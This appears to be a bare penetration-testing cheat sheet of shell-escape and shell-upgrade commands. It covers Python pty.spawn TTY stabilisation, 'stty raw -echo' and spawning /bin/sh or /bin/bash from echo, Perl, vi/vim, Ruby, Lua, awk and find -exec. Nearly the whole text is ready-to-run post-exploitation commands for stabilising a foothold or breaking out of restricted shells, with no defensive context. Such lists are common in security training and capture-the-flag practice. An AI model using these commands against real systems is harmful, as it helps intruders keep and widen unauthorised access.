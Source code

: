 ```
python -c 'import pty; pty.spawn("/bin/sh")' 
```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
export TERM=xterm
```

```
CTRL + Z
```

```
stty raw -echo; fg
```

## Echo

```
echo 'os.system('/bin/bash')'
```

## sh

```
/bin/sh -i
```

## Bash

```
/bin/bash -i
```

## Perl

```
perl -e 'exec "/bin/sh";'
```

## Vi

```
:!bash
```

## Vim

```
vim -c ':!/bin/sh'
```

```
vim
:set shell=/bin/sh
:shell
```

## Ruby

Run inside script
```
exec "/bin/sh"
```

## Lua

Run inside script
```
os.execute('/bin/sh')
```

## AWK

```
awk 'BEGIN {system("/bin/sh")}'
```

## Find

```
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```
find . -exec /bin/sh \; -quit
```

